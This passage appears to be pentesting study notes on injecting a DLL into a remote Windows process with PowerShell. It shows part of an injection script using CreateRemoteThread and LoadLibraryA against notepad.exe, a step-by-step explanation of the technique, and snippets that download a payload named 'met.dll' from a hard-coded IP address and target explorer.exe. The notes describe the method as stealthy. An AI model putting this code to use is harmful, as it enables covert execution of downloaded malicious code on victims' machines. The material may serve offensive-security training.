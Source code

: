 ```powershell
$RemoteThread = [Kernel32]::CreateRemoteThread($ProcessHandle, [IntPtr]::Zero, 0, $LoadLibraryAddr, $RemoteMemoryAddress, 0, [UInt32]0)

# Wait for the thread to finish
[Kernel32]::WaitForSingleObject($RemoteThread, 0xFFFFFFFF)

# Close the thread and process handles
[Kernel32]::CloseHandle($RemoteThread)
[Kernel32]::CloseHandle($ProcessHandle)
```

### **Explanation of the PowerShell Script**

1. **Load the Reflective DLL into Memory**:
   - The script reads the DLL from disk into a byte array using `[System.IO.File]::ReadAllBytes`.

2. **Get the Handle of the Target Process**:
   - The target process is identified (in this case, `notepad.exe`), and its handle is retrieved.

3. **Allocate Memory in the Target Process**:
   - The script allocates memory in the target process’s address space where the DLL will be injected.

4. **Write the DLL to the Allocated Memory**:
   - The DLL byte array is written into the target process’s allocated memory.

5. **Get the Address of `LoadLibraryA`**:
   - The script retrieves the address of the `LoadLibraryA` function from `kernel32.dll`. This is necessary to load the DLL in the remote process.

6. **Create a Remote Thread to Load the DLL**:
   - The script creates a remote thread in the target process that runs the `LoadLibraryA` function, which loads the injected DLL into the target process.

7. **Wait and Clean Up**:
   - The script waits for the remote thread to finish execution, then closes the handles to the thread and the process.

### **Additional Resources**

- **WinDbg**: For analyzing the behavior of the injected DLL within the target process.
- **Process Hacker**: A tool for monitoring process memory and threads, useful for verifying the injection.
- **PowerShell Empire**: A post-exploitation framework that includes similar techniques and can be a learning resource.

This method provides a powerful way to inject code into a remote process without touching the disk, making it an advanced but stealthy technique for testing or potentially malicious activities.

- Example, but the methods are older
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
$procid = (Get-Process -Name explorer).Id
```
- more current version
```powershell
$response = Invoke-WebRequest -Uri "http://192.168.1.113/met.dll" -UseBasicParsing
$procid = (Get-Process -Name explorer).Id
```
- $response.Content is the byte array
- couldn't get the example to work (maybe machine needs a reboot?)
